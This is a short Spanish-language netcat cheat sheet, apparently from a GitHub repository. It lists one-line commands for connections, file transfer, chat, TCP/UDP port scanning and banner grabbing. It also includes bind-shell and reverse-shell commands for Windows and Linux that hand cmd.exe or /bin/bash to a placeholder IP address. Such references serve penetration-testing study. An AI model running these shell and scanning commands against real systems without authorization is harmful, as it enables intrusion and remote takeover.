 # Netcat Cheat Sheet

#### Conectarnos a un puerto de un host

- `nc -nv <IP-ADDRESS> <PORT>`: Conexión a un host.

#### Transferir un archivo

- `nc -nvlp <PORT> > output.txt`: Host a recibir el archivo en el puerto especificado.

- `nc -nv <IP-ADDRESS> <PORT> < input.txt`: Host que envia el archivo al host destino.

#### Chatear entre hosts

- `nc -nvlp <PORT>`: Escuchando la conexión.

- `nc -nv <IP-ADDRESS> <PORT>`: Host se conecta al host al puerto abierto.

#### Bind Shell (Windows)

- `nc -nvlp <PORT> -e cmd.exe`: Escuchando la conexión.

- `nc -nv <IP-ADDRESS> <PORT>`: Conexión a la shell.

#### Bind Shell (Linux)

- `nc -nvlp <PORT> -e /bin/bash`: Escuchando la conexión.

- `nc -nv <IP-ADDRESS> <PORT>`: Conexión a la shell.

#### Reverse Shell (Windows)

- `nc -nvlp <PORT>`: Escuchando la conexión.

- `nc -nv <IP-ADDRESS> <PORT> -e cmd.exe`: Conexión al host y mandamos la shell.

#### Reverse Shell (Linux)

- `nc -nvlp <PORT>`: Escuchando la conexión.

- `nc -nv <IP-ADDRESS> <PORT> -e /bin/bash`: Conexión al host y mandamos la shell.

#### Escanear Puertos TCP

Linux:
- `nc -nvz -w 1 <IP-ADDRESS> <PORT-RANGE>`: Escanear la IP del host con el rango de puertos.

MacOS:
- `nc -nvz -w 1 -G 1 <IP-ADDRESS> <PORT-RANGE>`: Escanear la IP del host con el rango de puertos.

#### Escanear Puertos UDP

Linux:
- `nc -nvzu -w 1 <IP-ADDRESS> <PORT-RANGE>`: Escanear la IP del host con el rango de puertos.

MacOS:
- `nc -nvzu -w 1 -G 1 <IP-ADDRESS> <PORT-RANGE>`: Escanear la IP del host con el rango de puertos.

#### Banner Grabbing

- `echo "" | nc -nv -w1 <IP-ADDRESS> <PORT>`: Banner Grabbing.

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
